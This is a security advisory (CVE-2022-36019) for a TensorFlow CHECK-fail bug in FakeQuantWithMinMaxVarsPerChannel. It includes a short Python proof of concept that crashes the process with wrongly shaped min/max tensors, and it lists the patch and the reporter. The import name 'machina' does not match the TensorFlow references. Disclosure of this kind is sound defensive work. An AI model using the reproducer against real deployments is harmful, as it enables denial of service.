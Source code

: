 ## TFSA-2022-106: `CHECK` fail in `FakeQuantWithMinMaxVarsPerChannel`

### CVE Number
CVE-2022-36019

### Impact
If `FakeQuantWithMinMaxVarsPerChannel` is given `min` or `max` tensors of a rank other than one, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import machina as tf

num_bits = 8
narrow_range = False
inputs = tf.constant(0, shape=[4], dtype=tf.float32)
min = tf.constant([], shape=[4,0,0], dtype=tf.float32)
max = tf.constant(0, shape=[4], dtype=tf.float32)
tf.raw_ops.FakeQuantWithMinMaxVarsPerChannel(inputs=inputs, min=min, max=max, num_bits=num_bits, narrow_range=narrow_range)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/machina/machina/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
